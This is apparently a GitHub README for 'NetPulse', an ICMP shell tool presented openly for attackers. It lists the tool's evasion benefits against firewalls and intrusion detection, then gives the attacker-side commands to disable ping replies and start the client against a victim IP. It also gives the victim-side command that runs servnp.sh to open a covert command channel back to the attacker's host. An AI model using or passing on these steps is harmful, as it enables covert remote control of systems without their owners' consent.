 # NetPulse Usage Guide - ICMP SHELL Tool

NetPulse is an ICMP SHELL tool that does not require root access on the victim's side. This guide provides detailed information on how to use NetPulse.

## Advantages of NetPulse
- **No Root Access Required:** NetPulse eliminates the need for root access on the victim's side.
- **Camouflage:** ICMP traffic is common and often allowed in networks and firewalls.
- **Reduced Visibility:** ICMP messages leave no traces in the state tables of most firewalls.
- **Useful in Restrictive Networks:** In networks where TCP or UDP traffic is strictly controlled, ICMP can be an alternative.

## Disadvantages of NetPulse
- **Limited Shell:** NetPulse provides a limited and non-interactive shell.
- **Uncommon Traffic:** Traffic generated by NetPulse can be detected by intrusion detection systems.
- **High Latency:** Compared to a reverse shell, NetPulse is much slower.

## Attacker-Side Configuration
Attacker-side configuration is more complex and requires root access. Follow the steps below:

### Disable Kernel Auto-Response to Pings:

To disable the kernel's automatic ping response, use the `-s` flag:
```
$ sudo python3 netpulse.py -s
```

If you want to enable it again, you can use the same option.
This change is not permanent and will revert to the default upon system restart.

### Starting the Client

To start the client, execute the [netpulse.py](/netpulse.py) file with root permissions:

```bash
$ sudo python3 netpulse.py -i <interface> <victim-IP>
```
For more options, use the -h flag:
```bash
$ python3 netpulse.py -h
```

## Victim-Side Configuration
Victim-side configuration is simpler and does not require root access. Ensure that the following tools are installed:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Tool for testing the reachability of network hosts.
- [xxd](https://packages.debian.org/bullseye/xxd) - Tool for creating (or reversing) a hexadecimal dump.

If all the necessary tools are installed, run the [servnp.sh](/servnp.sh) file:
```bash
$ chmod +x servnp.sh && ./servnp.sh <attacker-IP>
```

# Screenshot

<img src="https://github.com/thekh40s/netpulse/assets/129444003/38875260-9f1b-4cfb-b5ef-178f31dddfbf" width="800">

# Buy me a Coffee :p

<a href="https://www.buymeacoffee.com/ryan.r" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
